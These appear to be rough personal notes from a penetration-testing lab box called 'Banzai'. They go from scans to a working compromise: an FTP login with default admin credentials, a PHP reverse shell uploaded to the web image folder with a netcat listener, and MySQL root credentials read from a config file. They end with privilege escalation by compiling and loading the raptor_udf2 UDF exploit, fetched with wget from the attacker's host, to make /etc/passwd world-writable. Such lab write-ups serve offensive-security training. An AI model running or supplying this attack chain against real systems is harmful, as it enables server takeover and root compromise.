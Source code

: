 # Banzai
# date 7/8/2023
# ip 192.168.239.56

# nmap
PORT     STATE  SERVICE    VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp        vsftpd 3.0.3
22/tcp   open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
25/tcp   open   smtp       Postfix smtpd
5432/tcp open   postgresql PostgreSQL DB 9.6.4 - 9.6.6 or 9.6.13 - 9.6.19
8080/tcp open   http       Apache httpd 2.4.25
8295/tcp open  http    Apache httpd 2.4.25 ((Debian))

# gobuster
we found img web where pall img are stored
/css                  (Status: 301) [Size: 321] [--> http://192.168.239.56:8295/css/]
/lib                  (Status: 301) [Size: 321] [--> http://192.168.239.56:8295/lib/]
/img                  (Status: 301) [Size: 321] [--> http://192.168.239.56:8295/img/]
/js                   (Status: 301) [Size: 320] [--> http://192.168.239.56:8295/js/]
/contactform          (Status: 301) [Size: 329] [--> http://192.168.239.56:8295/contactform/]


# ftp
default pass can be bruteforce
admin:admin

ftp> cd img

here are imges stored for website



# exploitaion
└─$ nc -lvnp 22(only on 22)                          
ftp> put php-reverse-shell.php   (in img folder)

http://192.168.239.56:8295/img/php-reverse-shell.php 


# priv esc
db conf found in /var/www/
got creds for mysql
$ cat config.php
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');


$ mysql -u root -p


mysql> status;
status;
mysql  Ver 14.14 Distrib 5.7.30, for Linux (x86_64) using  EditLine wrapper


the mysql version is outdated

└─$ searchsploit -m 1518.c


 * $ gcc -g -c 1518.c -o raptor_udf2.o
gcc -g -c 1518.c -o raptor_udf2.o
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

wget http://192.168.45.206:22/1518.c


put exploit at /usr/lib/mysql/plugin/raptor_udf2.so:

use mysql;
create table foo(line blob);

insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
insert into foo values(load_file('/var/www/html/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
select * from mysql.func;
select do_system('chmod 777 /etc/passwd');


1
2
3
4
5
6
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';


select * from mysql.func;
select do_system('chmod 777 /etc/passwd');




gcc -g -c 1518.c 
